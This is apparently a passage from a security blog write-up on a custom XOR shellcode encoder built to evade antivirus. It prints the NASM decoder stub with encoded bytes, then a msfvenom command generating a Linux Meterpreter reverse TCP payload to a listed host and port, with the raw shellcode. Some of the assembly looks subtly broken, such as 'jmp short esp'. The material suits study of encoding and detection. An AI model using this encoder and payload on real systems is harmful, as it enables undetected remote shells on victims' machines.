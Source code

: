 ```nasm
        sub esp, 0x7f       ; make room on the stack
        sub esp, 0x7f       ; make room on the stack
        sub esp, 0x7f       ; make room on the stack

decode:
        mov bl, byte [esi + edx + 1]    ; read 1st encoded byte
        mov bh, byte [esi + edx + 2]    ; read 2nd encoded byte
        mov cl, byte [esi + edx + 3]    ; read 3rd encoded byte
        mov ch, byte [esi + edx + 4]    ; read 4th encoded byte
        xor bl, byte [esi + edx]        ; xor with the key byte
        xor bh, byte [esi + edx]        ; xor with the key byte
        xor cl, byte [esi + edx]        ; xor with the key byte
        xor ch, byte [esi + edx]        ; xor with the key byte
        mov byte [esp + eax], ch        ; store in memory in reverse order to restore original shellcode
    	mov byte [esp + eax + 1], cl    ; ..
        mov byte [esp + eax + 2], bh    ; ..
        mov byte [esp + eax + 3], bl    ; ..

        cmp dword [esi + edx + 5], edi  ; check if we have reached the end of shellcode marker
        jz execute_shellcode            ; if we do, jump to the shellcode and execute it

        inc edx
        inc edx
        inc edx
        inc edx
        inc edx
        add eax, 4
        jnz decode

execute_shellcode:
        jmp short esp

call_shellcode:
        call decoder
        encoder_shellcode: db 0x08,0x60,0x58,0xc8,0x39,0xb0,0xd8,0xc3,0x9f,0x9f,0xd1,0xb8,0xb3,0xfe,0xb9,0x1e,0x4e,0xfd,0x97,0x70,0x39,0xb0,0x6a,0xdb,0xb0,0xc4,0x09,0xcf,0x74,0x25,0x76,0xe6,0xe6,0xe6,0xf6,0x90,0x90,0xaa,0xaa
```

Testing non-encoded shellcode against Virus Total
-------------------------------------------------

To test the encoder and see what effects it has on AV engine detection, I used a meterpreter reverse TCP payload and compiled it using the test C program without any encoding first. 

```
root@ragingbeaver:~# msfvenom -p linux/x86/meterpreter/reverse_tcp -f c LHOST=172.23.10.40 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of c file: 543 bytes
unsigned char buf[] = 
"\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89"
"\xe1\xcd\x80\x97\x5b\x68\xac\x17\x0a\x28\x68\x02\x00\x11\x5c"
"\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0"
"\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05"
"\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9"
"\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd"
"\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80"
"\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00"
"\x00\xcd\x80";
```